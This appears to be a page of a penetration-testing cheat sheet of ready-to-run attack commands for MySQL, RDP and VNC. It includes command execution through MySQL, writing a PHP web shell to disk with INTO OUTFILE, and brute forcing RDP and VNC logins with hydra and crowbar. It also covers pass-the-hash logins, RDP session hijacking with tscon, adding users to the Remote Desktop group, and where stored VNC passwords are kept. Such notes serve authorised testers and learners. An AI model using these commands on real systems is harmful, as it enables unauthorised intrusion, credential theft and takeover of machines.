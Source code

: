 # Remote
mysql -h <IP> -u <USER>
MySQL commands
show databases;
use <DATABASES>;

show tables;
describe <TABLE>;

select * from <TABLE>;

# Try to execute code
select do_system('id');
\! sh

# Read & Write
select load_file('<FILE>');
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE '<OUT_FILE>'
Manual exploit
Cheatsheet :
	- https://www.asafety.fr/mysql-injection-cheat-sheet/
RDP - 3389
Brute force
crowbar -b rdp -s <IP>/CIDR -u <USER> -C <PASSWORDS_LIST>
crowbar -b rdp -s <IP>/CIDR -U <USERS_LIST> -C <PASSWORDS_LIST>

hydra -f -L <USERS_LIST> -P <PASSWORDS_LIST> rdp://<IP> -u -vV
Connect with known credentials / hash
rdesktop -u <USERNAME> <IP>
rdesktop -d <DOMAIN> -u <USERNAME> -p <PASSWORD> <IP>

xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP>
xfreerdp /u:[DOMAIN\]<USERNAME> /pth:<HASH> /v:<IP>
Session stealing
Get openned sessions
query user
Access to the selected
tscon <ID> /dest:<SESSIONNAME>
Adding user to RDP group (Windows)
net localgroup "Remote Desktop Users" <USER> /add
VNC - 5800 - 58001 - 5900 - 5901
Scans
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -v -p <PORT> <IP>
Brute force
hydra -L <USERS_LIST> –P <PASSWORDS_LIST> -s <PORT> <IP> vnc -u -vV
Connect
vncviewer <IP>:<PORT>
Found VNC password
Linux
Default password is stored in: ~/.vnc/passwd
Windows
# RealVNC
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver
